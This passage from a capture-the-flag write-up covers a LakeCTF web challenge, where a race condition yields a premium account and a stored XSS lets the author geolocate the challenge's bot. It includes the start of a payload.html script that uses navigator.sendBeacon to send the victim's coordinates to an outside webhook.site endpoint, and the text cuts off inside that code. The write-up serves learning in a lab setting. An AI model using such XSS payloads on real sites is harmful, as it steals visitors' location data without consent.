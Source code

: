 ![](https://github.com/siunam321/CTF-Writeups/blob/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106003132.png)

> Note: After the CTF ends, "strellic" posted the first part of the unintended solution:
> 
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106152436.png)
> 
> Maybe we just got lucky that we accidentally won the race condition during bot's premium PIN submission :D 

After we got an account that is a premium account, we can easily geolocate the bot and submit the correct latitude and longitude by exploiting the stored XSS vulnerability in route `/chalelnge`.

### Geolocate the Bot With Stored XSS

- **Setup a static web server that hosting this `payload.html` geolocate JavaScript code:**

```html
<!doctype html>
<html>
  <body>
    <script>
      function sendDataToWebhook(bodyData) {
        navigator.sendBeacon("https://webhook.site/<your_token>", bodyData);
      }
      function onsuccess(position) {
        sendDataToWebhook(`${position.coords.longitude} ${position.coords.latitude}`);    
      }
      function onerror(error) {
        sendDataToWebhook(`${error.code} ${error.message}`);
      }

      function geolocate(){
```